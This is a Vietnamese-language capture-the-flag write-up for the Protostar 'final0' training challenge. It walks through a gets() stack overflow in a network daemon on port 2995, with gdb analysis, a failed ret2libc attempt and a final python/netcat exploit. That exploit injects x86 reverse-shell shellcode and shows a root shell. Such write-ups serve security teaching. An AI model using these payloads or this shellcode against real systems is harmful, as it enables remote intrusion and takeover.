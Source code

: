 # **final0**
## Source code
```
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

- Lắng nghe ở cổng 2995.
- Nhận một string từ client và chuyển thành chữ viết hoa bằng hàm toupper().

Do dùng hàm gets() cho biến local: buffer nên ta có thể tấn công stackoverflow.
## Tools
- gdb
- python
- netcat

## Phân tích chương trình
Dùng gdb để debug final0:
- set follow-fork-mode child
- set disassembly-flavor intel
- define hook-stop
  - x/3i $eip
  - x/32w $esp
  - x/32w $ebp - 16
  - end

Dùng ```nc 127.0.0.1 2995``` để connect tới server:
- python -c '"a"*(512 + 20)' | nc 127.0.0.1 2995

Quan sát gdb:
- breakpoint ngay sau hàm gets():

  <img src="pictures/after_gets.png">

  - (512 + 20) ký tự "a" được đưa vào stack: trong đó 20 bytes overflow
- breakpoint ở hàm strdup() - đã kết thúc vòng lặp toupper():

  <img src="pictures/break_strdup.png">

  - tuy đã kết thúc strdup nhưng những bytes "a" overflow chưa bị chuyển thành "A"
  - Chạy thử chương trình dưới đây:

    <img src="pictures/strlen.png">
  
  - string b dù dài đến mấy thì strlen(b) luôn trả về 22. Nhận ra được vấn đề ở hàm strlen() khi char[] bị overflow
  - => Những bytes overflow không bị ảnh hưởng bởi toupper()
- breakpoint ở instruction ret của hàm get_username(), quan sát được return address nằm ở địa chỉ 0xbffff77c:

  <img src="pictures/ret_address.png">

## Exploit
**Fail #1: ret2libc**

Sử dụng kĩ thuật ret2libc như trong stack6:
  - 0xb7fb63bf:      "/bin/sh"
  - 0xb7ecffb0:      <__libc_system>

Exploit:
```
python -c 'print "a"*0x214 + "\xb0\xff\xec\xb7" + "\xbf\x63\xfb\xb7"' | nc 127.0.0.1 2995
```
Trong đó:
  - "a"*0x214: là các ký tự rác để overflow đến ngay trước return address
  - "\xb0\xff\xec\xb7": địa chỉ hàm system biểu diễn bằng little endian, ghi đè vào return address
  - "\xbf\x6c\xfb\xb7": khi gọi hàm system, top của stack chính là argument của hàm system, đây là địa chỉ của string "/bin/sh"

Tuy nhiên không có gì xảy ra, kiểm tra gdb server:
```
Executing new program: /bin/dash 
```
=> Phía server có chạy /bin/dash, tuy nhiên client không tương tác được với chương trình.

**Final: reversed shell**

Reversed shell: là shell có kết nối bắt nguồn từ server(target) ngược trở về client(host)

=> 
  - Tìm shellcode để chạy reversed shell phía server (cụ thể phải có từ khóa 127.0.0.1 do địa chỉ này chứa NUL byte): [link](https://packetstormsecurity.com/files/154374/Linux-x86-TCP-Reverse-Shell-127.0.0.1-Nullbyte-Free-Shellcode.html)
  - chạy ```nc -l -p 4444```:
    - -l: listen
    - -p: port (shellcode tạo kết nối đến port 4444)
  - Để shellcode ở ngay sau return address (không bị toupper ảnh hưởng)

Exploit:
```
python -c 'print "a"*0x214 + "\x80\xf7\xff\xbf"+"\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"' | nc 127.0.0.1 2995
```
Trong đó:
  - "a"*0x214: là các ký tự rác để overflow đến ngay trước return address
  - "\x80\xf7\xff\xbf": ghi đè vào return address địa chỉ để shellcode dưới dạng little endian
  - "\x31\xc0\x31\xdb...\xb0\x01\xcd\x80": shellcode tạo reversed shell đến 127.0.0.1 port 4444
Kết quả:
```
user@protostar:/tmp$ nc -l -p 4444
whoami
root
```
OK

# References
- Reversed shell: [link](https://viblo.asia/p/hieu-ro-ve-reverse-shells-LzD5ddE45jY)
- Shellcode reversed shell localhost: [link](https://packetstormsecurity.com/files/154374/Linux-x86-TCP-Reverse-Shell-127.0.0.1-Nullbyte-Free-Shellcode.html)
